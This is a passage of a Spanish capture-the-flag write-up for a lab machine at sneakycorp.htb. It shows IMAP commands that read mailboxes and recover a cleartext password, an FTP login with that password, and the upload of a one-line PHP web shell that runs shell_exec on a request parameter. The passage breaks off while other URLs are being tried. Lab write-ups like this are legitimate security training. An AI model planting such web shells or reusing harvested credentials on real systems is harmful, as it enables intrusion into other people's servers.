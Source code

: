1. Seleccionar los items enviados

    ```bash
    A5 SELECT "INBOX.Sent Items"
    ```

1. Seleccionar lo que hay en la papelera

    ```bash
    A6 SELECT "INBOX.Deleted Items"
    ```

1. Vemos que hay dos elementos en los items enviados, los recuperamos

    ```bash
    A7 FETCH 1:2 BODY[]
    ```

En los bodys encontramos un un mensaje que pregunta para cambiar la contraseña del usuario developer poniendo 
y la contraseña original en texto claro.
En el otro mensaje otra vez hablan del servicio **Pypi**

Con el usuario y contraseña intentamos volver a conectar con **FTP**

### Conexion con FTP {-}

```bash
ftp 10.10.10.197

> Name: developer
> Password: contraseña
#Output
Connection succesful

dir
cd dev
dir
```

Aqui vemos el contenido de la web. Nos creamos la famosa `s4vishell.php`

```php
<?php
    echo "<pre>". shell_exec($_REQUEST['cmd']) . "</pre>";
?>
```

ahora con el ftp subimos el archivo.

```bash
put s4vishell.php
#Output
transfer complete
```

Controlamos en la web si vemos el fichero `http://sneakycorp.htb/s4vishell.php` pero tenemos un *404 NOT FOUND*.
Intentamos con otras url:

